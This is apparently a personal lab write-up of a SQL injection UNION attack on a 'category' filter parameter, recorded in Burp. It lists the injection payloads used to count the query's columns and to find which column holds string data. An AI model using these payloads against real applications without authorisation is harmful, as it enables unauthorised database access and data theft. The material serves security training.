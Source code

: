 

## End Goal: perform a SQL injection UNION attack that returns an additional row containing the value provided


## BURP

GET /filter?category=Gifts HTTP/2

## First finding the number of columns

payload

`gifts ' union select null , null ,null .... -- `


--> columns found = 3

`gifts ' union select null , null ,null ,null --`


## adding string in place of null iteratively to find the column with string datatype

`gifts ' union select null , 'a' ,null ,null --`
`gifts ' union select null , null ,'a' ,null --`
`gifts ' union select null , null ,null ,'a' --`

response gives the result


2nd query gave the 200 response , hence the 2nd column is of string type




![[images/Pasted image 20231102235049.png]]